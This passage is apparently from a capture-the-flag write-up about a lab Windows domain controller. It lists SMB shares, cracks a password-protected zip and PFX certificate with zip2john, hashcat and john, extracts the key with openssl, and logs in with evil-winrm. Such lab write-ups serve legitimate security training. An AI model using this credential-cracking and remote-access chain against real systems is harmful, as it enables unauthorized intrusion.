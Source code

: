 ```bash
SMB 10.10.11.152 445 DC01 ADMIN$ Remote Admin
SMB 10.10.11.152 445 DC01 C$ Default share
SMB 10.10.11.152 445 DC01 IPC$ READ Remote IPC
SMB 10.10.11.152 445 DC01 NETLOGON Logon server share 
SMB 10.10.11.152 445 DC01 Shares  READ 
SMB 10.10.11.152 445 DC01 SYSVOL Logon server share
```
Inside the `Shares` share we are able to get some files:
```bash
# Dev directory
smb: \Dev\> dir
  winrm_backup.zip                    A     2611  Mon Oct 25 15:46:42 2021
# Help Desk directory
smb: \HelpDesk\> dir
 LAPS.x64.msi A 1118208 Mon Oct 25 14:57:50 2021
 LAPS_Datasheet.docx A 104422 Mon Oct 25 14:57:46 2021
 LAPS_OperationsGuide.docx A 641378 Mon Oct 25 14:57:40 2021
 LAPS_TechnicalSpecification.docx A 72683 Mon Oct 25 14:57:44
```

### Exploitation

The .zip file is password protected, so we extract its hash with zip2john and then proceed to crack it with hashcat: ^d3fbae
```bash
zip2john winrm_backup.zip 
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
winrm_backup.zip/legacyy_dev_auth.pfx:$pkzip$1*1*2*0*965*9fb*12ec5683*0*4e*8*965*72aa*1a84b40ec6b5c20abd7d695aa16d8c88a3cec7243a...
40c7d3df38fc5da2c1a255ff8c9e344761a397d2c2d59d722723d27140c6830563ee783156404a17e2f7b7e506452f76*$/pkzip$:legacyy_dev_auth.pfx:winrm_backup.zip::winrm_backup.zip
```
Hashcat output:
```bash
D:\Programs\hashcat-6.2.5>hashcat.exe -m 17220 -a 0 hash.txt rockyou.txt
supremelegacy
```
The .pfx file is also password protected:
```bash
pfx2john legacyy_dev_auth.pfx   
legacyy_dev_auth.pfx:$pfxng$1$20$2000$20$eb755568327396de179c4a5...
45b03465a6ce0c974055e6dcc74f0e893:::::legacyy_dev_auth.pfx
```
Hashcat output:
```bash
pfx2john legacyy_dev_auth.pfx | john /dev/stdin --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
thuglegacy       (legacyy_dev_auth.pfx)
```
Now that we get the passphrase for the PFX certificate, we need to extract its content. Searching on the Internet, we find this guide [How to Extract Certificate and Private Key from PFX](https://tecadmin.net/extract-private-key-and-certificate-files-from-pfx-file/) basically we need to run two commands:
```bash
# Extract the public certificate
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out publicCert.pem               
# Extract the private key (don't forget to use the .pfx passphrase)
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes  
Enter Import Password:
```
Now that we get this two files, we can proceed to access the machine:
```bash
evil-winrm -i 10.10.11.152 -c publicCert.pem -k priv-key.pem -S 
```